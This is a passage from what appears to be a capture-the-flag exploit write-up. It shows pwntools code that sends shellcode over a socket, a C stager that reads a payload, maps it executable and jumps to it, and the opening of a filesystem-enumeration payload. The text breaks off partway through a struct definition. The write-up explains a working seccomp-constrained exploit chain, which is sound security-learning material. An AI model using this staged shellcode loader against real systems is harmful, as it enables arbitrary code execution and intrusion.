 ```python
s.send(shellcode)

s.recvuntil(b"ready")
sc = open("shellcode", "rb").read()
s.send(p32(len(sc)))
s.send(sc)

s.interactive()
```

However, there's a bit of a wrinkle: with sockets, `read` can return early, and in testing it would frequently return after just a single TCP packet (so after ~1400 bytes). The seccomp filter blocks `recv*` functions so we can't use `MSG_WAITALL`. As a workaround, I used Shellcode Compiler to build a tiny stager ([`stager.c`](files/stage5/stager.c)):

```c
void readall(int fd, void *buf, int size) {
  while(size > 0) {
    int res = read(fd, buf, size);
    if(res < 0) {
      return;
    }
    buf += res;
    size -= res;
  }
}

int main() {
  char buf[65536];
  int fd = open("lunatic", O_RDWR | O_CREAT, 0666);
  write(5, "ready", 5);
  int size;
  readall(5, &size, 4);
  readall(5, buf, size);
  write(fd, buf, size);
  void *code = mmap(NULL, (size + 4095) & ~0xfff, PROT_READ | PROT_EXEC, MAP_SHARED, fd, 0);
  goto *code;
}
```

This stager compiles to just 312 bytes of x86-64 assembly ([`stager`](files/stage5/stager)). We inject it first using the ropchain, then send the stager the length of the final payload and the payload itself. With it, we can run a payload of arbitrary length. One of the earliest payloads I sent was to enumerate the filesystem ([`shellcode1.c`](files/stage5/shellcode1.c)):

```c
#define SOCKFD 5
#define SOCK fdopen(SOCKFD)
#define printf(...) fprintf(SOCK, ##__VA_ARGS__)

/** syscall wrappers **/
void exit_group(int code) {
    __syscall(231, code);
}

int getdents64(int fd, void *dents, int size) {
    return __syscall(217, fd, dents, size);
}

/** goodfs stuff **/
struct mounter_shmem {
    int flag;
    char password[256];
    char command[256];
    char arguments[256];
```